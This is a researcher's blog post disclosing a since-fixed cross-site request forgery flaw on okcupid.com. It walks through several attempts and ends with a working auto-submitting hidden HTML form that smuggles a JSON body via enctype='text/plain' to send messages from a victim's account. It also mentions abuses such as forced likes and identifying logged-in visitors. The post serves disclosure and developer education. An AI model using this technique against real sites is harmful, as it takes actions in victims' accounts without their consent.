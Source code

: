 ```yaml
---
title: how to be popular
author: yan
date: 2021-08-02
url: /csrf/

---
```


This is a quick blog post about a security vulnerability (now fixed) that allowed me to make anyone like or message a profile on okcupid.com simply by getting them to click a link on my website. In doing so, I used one of the most boring web application security issues (CSRF) combined with a somewhat interesting JSON type confusion.

Proof that it worked on a friend who agreed to help me with security testing and is definitely NOT a rabbit:

![Definitely not a rabbit](https://user-images.githubusercontent.com/549654/127944881-d9862841-fc49-459d-81fe-495e60e0e68b.png)

## A short recap of CSRF

The story, like many, began with me opening devtools and checking if websites were sending CSRF tokens alongside requests that require authentication, like sending messages to another user from your account. [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) is an attack whereby an attacker sends a link to a victim which, when visited in the victim's browser, performs some action on behalf of the victim on a site that they are logged into. So for instance, if Bob is logged into Facebook, and Facebook doesn't have CSRF mitigations on the endpoint that deletes a user's account, then Alice can trick him into deleting his Facebook account by sending him a hidden link to `https://facebook.com/delete` (which is not the actual URL that deletes your FB account). 

In this case, I noticed that OkCupid messages are sent via POST requests to `https://www.okcupid.com/1/apitun/messages/send` with a JSON-encoded body like so:

```
{"receiverid": "123", "body": "sup"}
```

Conspicuously, there was no CSRF token sent in the request. CSRF tokens are a common way to mitigate these attacks by including an unguessable secret token as an additional HTTP header or POST parameter. The receiving endpoint only allows the request after validating the token; the idea being that while Bob's authentication cookies are sent automatically by his browser when he clicks on Alice's malicious link, Alice isn't able to include a valid CSRF token in the link and therefore the request will fail. 

## But what about the same-origin policy?

Web developers should be aware that the most fundamental security policy of the web is the same-origin policy: a website on one origin (AKA a scheme + host tuple) running in the browser should not be able to access data on a distinct origin unless the other origin explicitly allows it via a mechanism like [Cross-Origin Resource Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) (CORS). You might be tempted to think that CSRF isn't possible if your website doesn't send a CORS header.

The problem is that certain types of requests don't care about CORS, and the rules for this are not obvious. For instance:

1. If your site tries to GET a cross-origin image using XHR, it's blocked by default.
2. If your site instead loads the image via an `img` tag instead, it works.
3. If your site sends a POST to another origin via the fetch API, it's blocked by default.
4. If your site instead sends the POST by clicking the submit button on an HTML `form` element via javascript, it works.

## Doing it in practice

So how do we create a webpage which sends a cross-origin POST request to the OkCupid message-sending endpoint? This was attempt #1:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='foo' value='bar'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

I visited this on a localhost server and got a very helpful error message after the form was auto-submitted:

![attempt
1](https://user-images.githubusercontent.com/549654/127945076-e050e29b-b620-414f-b470-367a08824e4a.png)

Interesting - it's not complaining that the request is initiated by some random origin, but rather that the POST body (`foo=bar`) is invalid JSON! Maybe we can fix that with a weird trick:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

My reasoning here was that the browser converts the `name` and `value` attributes on HTML `input` elements into `name=value` in the POST body that gets sent over the wire; so if `name` is `{"foo":"` and `value` is `bar"}`, this would become `{"foo":"=bar"}` which would be JSON-parsed into the bizarre-looking object `{foo: '=bar'}` without a problem. With a rush of hope unfelt since before the pandemic, I loaded this up in my browser and saw:

![attempt
2](https://user-images.githubusercontent.com/549654/127944894-831c314c-590c-47a8-93a5-b80aa03ce663.png)

... the exact same error. But this time it was because my beautiful POST body had been URL-encoded to become the ugly-but-safe string `%7B%22foo%22%3A%22%3Dbar%22%7D`. If only there were a way to tell the browser to not encode this form body!

Luckily the W3C deities gave us exactly such a gift in the form (pun intended) of the `enctype` [attribute](https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement/enctype). 

```
<html>
  <body>
    <form id="form" method="post" enctype="text/plain" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

With the help of `enctype="text/plain"`, the payload is finally sent in its true form (pun intended again) of `{"foo":"=bar"}`:

![attempt 3](https://user-images.githubusercontent.com/549654/127944886-2a7199f1-425e-4bd0-87c4-3076c56061f1.png)

Putting it all together, the following HTML will automatically send a message that says "I am a rabbit" to the fake userID 123. (Finding out someone's real userID is left as an exercise to the reader.)

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain">
      <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop_global", "service":"other"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

Note that the POST body becomes `{"foo":"=", "receiverid":"123", "body":"i am a rabbit","source":"desktop_global", "service":"other"}`. Because the browser inserts a `=` between the name and value attributes, this gets set to the value of a dummy key, `foo`, which okcupid fortunately ignores. 

I uploaded this HTML to my website, visited the link, and voila:

![finally](https://user-images.githubusercontent.com/549654/127944883-6232b92f-589f-41e3-b25f-a4bd1e3df794.png)

It works! ... Or would work if I had finished my test profile so I could send messages to other users.

Too lazy to do this myself, I sent my CSRF link with my own userID filled in to some friends. Lo and behold, my OkCupid test profile was seranaded by a series of messages that they didn't mean to send me.

![beloved](https://user-images.githubusercontent.com/549654/127944878-d4ad3456-8b26-4248-8a3a-2970aca6703a.png)

I briefly felt very popular, which made it all worthwhile.

## Parting thoughts

Besides making other users unknowingly message your OkCupid profile or someone else's profile of your choosing, I found you could use essentially the same vulnerability to get other users to "like" your profile. Obviously you could abuse this in order to match with anyone you could trick into clicking a link, or you could spam the link to a bunch of people to increase your profile's rankings in whatever mysterious algorithm OkCupid uses to suggest people.

It also occurred to me that if I redirected my website to the CSRF link that automatically sent a message to me, I could see the OkCupid profiles of my website visitors who were logged into okcupid.com, which would make for an intense web analytics tool.

The obvious fix is for OkCupid to require a CSRF token for these authenticated endpoint, but my attack also relied on the fact that these endpoints were happy to accept POSTs with `content-type: text/plain` even though they actually expected JSON. This made me curious if other sites were making the same mistake, so I quickly scraped some of the Alexa top sites looking for requests to endpoints containing `api` or `json`.

Once I had a list of a few hundred endpoints, I sent each of them a POST with `content-type: text/plain` and body `{"foo":"bar"}`. 87 out of 215 of these endpoints didn't error, and many appeared to return JSON responses indicating success. Granted most of these are probably not authenticated endpoints and some of them may need to accept non-JSON text, but this suggests to me that developers should be careful accepting `text/plain` inputs on endpoints that parse JSON.

### Disclosure timeline

This was reported to OkCupid in April 2021. According to their team, it was fixed without delay which prevented exploitation of the bug. I would like to thank their security team for the bounty and permission to share this blog post.
